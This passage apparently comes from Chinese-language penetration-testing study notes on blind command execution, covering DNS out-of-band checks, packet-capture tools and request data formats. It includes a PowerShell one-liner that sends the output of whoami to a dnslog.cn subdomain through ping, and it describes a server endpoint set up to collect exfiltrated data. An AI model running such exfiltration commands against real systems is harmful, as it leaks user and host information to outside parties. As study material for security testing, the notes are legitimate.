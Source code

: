 windows用powshell，replace

## 使用场景

**数据不进行回显时使用**，不管数据是否回显，我只要拿到你的shell，谈什么都没用，你的主机就归我了，除了反弹$shell$，也可以使用带外查询，这里通常是指 $DNS$ 带外查询[常用平台](http://dnslog.cn/)，申请一个dns域名，一旦访问就会有显示，就可以判断漏洞是否存在

-   举例：windows通过 $ping$​ 进行dns带外查询```powershell $x=whoami;$x=$x.Replace('\','xxx');$y='.vpod5d.dnslog.cn';$z=$x+$y;ping $z```

无回显还可以自己搭建一个服务器，构建请求http://ip/getdata.php?data=1，让别人访问这个链接，1为自己要带外的内容。

参考链接：

https://www.cnblogs.com/tomyyyyy/p/16628082.html，

https://www.freebuf.com/articles/web/382776.html，

https://threezh1.com/2020/04/29/xxe_payload/

## 抓包

### Http/Https协议抓包

-   BurpSuite
-   Fildder
-   charles
-   可以进行工具联动，可以抓类似小程序这种非浏览器应用的包由Charles转发到Burp或者Proxifier进行转发

### 其他协议

-   WireShark
-   科来分析->选择网卡去抓包
-   封包







# 常见数据传输&加密

## 传输格式

-   常规格式

-   Json格式

    ```json
    {
    	btnPost:"%E7%99%BB%E5%BD%95"；
    	username:"admin";
    	password:"e10adc3949ba59abbe56e057f20f883e and";
    	savedate:1;
    }
    ```

